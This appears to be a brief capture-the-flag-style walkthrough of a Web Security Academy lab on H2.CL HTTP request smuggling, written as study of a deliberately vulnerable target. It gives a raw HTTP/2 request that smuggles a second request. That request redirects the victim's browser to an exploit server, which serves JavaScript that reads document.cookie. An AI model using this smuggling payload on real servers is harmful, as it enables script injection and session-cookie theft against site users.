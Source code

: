 Title: H2.CL request smuggling
Level: PRACTITIONER
Desc:  This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.
To solve the lab, perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling alert(document.cookie). The victim user accesses the home page every 10 seconds. 

# Walkthroug:
First request to try:
```
POST / HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Content-Length: 0

SMUGGLED
```
Every second request should give 404, but it was not working in my case.

Final request to send:
```
POST / HTTP/2
Host: 0a0500f1030a2f91814608c600510093.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0a6f00f603992f588173073601b2003d.exploit-server.net
Content-Length: 5

x=1
```
Accessing /resources you get redirection to HOST+PATH, so sending upper request will cause browser to ask for: https://exploit-0a6f00f603992f588173073601b2003d.exploit-server.net/resources


